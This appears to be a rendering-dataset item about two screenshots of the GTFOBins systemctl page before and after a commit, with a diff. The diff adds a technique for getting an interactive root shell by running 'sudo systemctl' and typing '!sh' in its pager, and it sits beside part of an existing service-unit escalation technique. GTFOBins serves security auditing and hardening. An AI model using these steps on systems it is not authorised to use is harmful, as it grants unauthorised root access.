

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update sudo systemctl by escaping the pager

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -20,4 +20,9 @@ functions:
         WantedBy=multi-user.target' > $TF
         sudo systemctl link $TF
         sudo systemctl enable --now $TF
+    - description: |
+        Spawn interactive root shell escaping the pager.
+      code: |
+        sudo systemctl
+        !sh
 ---
```
